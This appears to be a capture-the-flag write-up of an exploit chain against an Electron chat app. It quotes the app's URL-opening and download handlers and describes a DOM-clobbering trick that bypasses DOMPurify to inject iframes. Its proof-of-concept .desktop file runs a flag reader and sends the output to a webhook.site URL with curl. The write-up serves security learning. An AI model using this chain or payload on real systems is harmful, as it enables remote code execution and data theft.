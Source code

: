 ```js
const downloadDir = process.env.HOME + "/Downloads/";
const logFile = path.join(__dirname, "log.xml");

const openInBrowser = (e, url) => {
  // dont open our html files in the browser
  if (!/file:\/\/.+\.html/.test(url)) {
    e.preventDefault();
    console.log(url)
    shell.openExternal(url);
  }
};

const downloader = (_e, item) => {
  console.log('downloader');
  try {
    if (!fs.existsSync(downloadDir)) {
      fs.mkdirSync(downloadDir);
    }
    item.setSavePath(downloadDir + item.getFilename().replace(/\.\./g, ""));
  } catch (e) {
    console.log(e);
  }
};
```

In xfce desktop we can run commands by opening .desktop files, which means opening `shell.openExternal('file:///pwn.desktop')` gives us the flag.

POC: pwn.desktop
```js
[Desktop Entry]
Exec=sh -c '/app/readflag | curl "https://webhook.site/ea4a966b-3574-4d6a-a8d8-7ca2ff02" -d @-'
Type=Application
```
There is also download handler, so we need to somehow save pwn.desktop file in the victim's system and navigate to that path in electron.

### DOM Clobber to Iframe Injection
We can notice that if isDev is defined all links are converted to embeds, the messages we add to the chat is sanitized with DOMPurifier, DOMPurifier allows id attribute so using id attribute we can clobber `window.isDev`.


```js
  if (window.isDev) {
    // make sure the a tags have a valid href attribute
    let links = Array.from(p.getElementsByTagName("a")).filter(
      (link) => link.href && /^(https?|file|mailto):$/.test(link.protocol)
    );
    links.shift(); // remove "Print This Message" link

    if (links.length > 0) {
      let link = new URL(links.pop());

      if (link.hostname.endsWith(".youtube.com"))
        link = "https://www.youtube.com/embed/" + link.searchParams.get("v");

      let iframe = document.createElement("iframe");
      iframe.sandbox = "allow-scripts allow-same-origin"; // safety first
      iframe.src = link;
      iframe.classList.add("preview", "mt-3");

      p.appendChild(iframe);
    }
  }
```